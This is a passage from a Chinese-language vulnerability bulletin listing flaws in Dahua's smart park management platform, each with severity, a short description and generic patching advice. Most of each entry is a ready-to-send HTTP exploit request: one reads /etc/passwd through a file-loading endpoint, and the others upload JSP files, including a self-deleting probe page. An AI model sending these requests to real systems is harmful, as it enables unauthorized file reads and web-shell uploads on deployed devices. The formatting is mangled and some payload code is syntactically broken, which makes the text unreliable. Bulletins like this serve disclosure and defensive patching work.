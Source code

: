 **漏洞详情：**



POST /api/v1/file/loadfile {"paht":"/etc/passwd"}



**处置建议：**升级版本或安装厂商官方补丁，用于提升系统自身安全性，同时，可通过安全设备快速感知漏洞利用行为并进行预警或阻断。

#####             11.     **大华智慧园区综合管理平台devicePoint_addImgIco文件上传漏洞**

**漏洞描述：**大华大华智慧园区综合管理平台通过接口任意上传文件。

**漏洞等级：**高

**漏洞类型：****0day/1day/nday**

**影响版本：**

**漏洞详情：**

**POST /emap/devicePoint_addImgIco?hasSubsystem=true HTTP/1.1****Content-Type: multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT****User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36 Edg/110.0.1587.69****Host: xx.xx.xx.xx****Accept: text/html, image/gif, image/jpeg, \*; q=.2, \*/\*; q=.2****Content-Length: 243****Connection: close****--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT****Content-Disposition: form-data; name="upload"; filename="1ndex.jsp"****Content-Type: application/octet-stream****Content-Transfer-Encoding: binary****123****--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--**

**处置建议：**升级版本或安装厂商官方补丁，用于提升系统自身安全性，同时，可通过安全设备快速感知漏洞利用行为并进行预警或阻断。

#####             12.     **大华智慧园区综合管理平台video文件上传漏洞**

**漏洞描述：**大华大华智慧园区综合管理平台通过接口任意上传文件。

**漏洞等级：**高

**漏洞类型：****0day/1day/nday**

**影响版本：**

**漏洞详情：**

**POST /publishing/publishing/material/file/video HTTP/1.1****Host: 127.0.0.1:7443****User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS  10_14 3) AppleWebKit/605.1.15 (KHTML, like Gecko)Version/12.0.3 Safari/605.1.15****Content-Length:804****Content-Type: multipart/form-data; boundary=dd8f988919484abab3816881c55272a7Accept-Encoding: gzip, deflate****Connection: close****-dd8f988919484abab3816881c55272a7Content-Disposition: form-data; name="Filedata"， filename="0EaE10E7dF5F10C2.jsp"****<%@page contentType="text/html; charset=GBK"%><%@page import="java.math.BigInteger%><%@page import="java.security.MessageDigest"%><% MessageDigest md5 = null;md5=MessageDigest.getInstance("MD5");String s = "123456"String miyao = "String jiamichuan = s +miyao;md5.update(jiamichuan.getBytes()):String md5String = new BigInteger(1,md5.digest()).toString(16);out.println(md5String);newjava.io.File(application.getRealPath(request.getServletPath())).delete();%>-dd8f988919484abab3816881c55272a7****Content-Disposition: form-data; name="poc****poc****--dd8f988919484abab3816881c55272a7****Content-Disposition: form-data; name="Submit!****submit****--dd8f988919484abab3816881c55272a7--**

**处置建议：**升级版本或安装厂商官方补丁，用于提升系统自身安全性，同时，可通过安全设备快速感知漏洞利用行为并进行预警或阻断。

#####             13.     **PigCMS action_flashUpload任意文件上传漏洞**
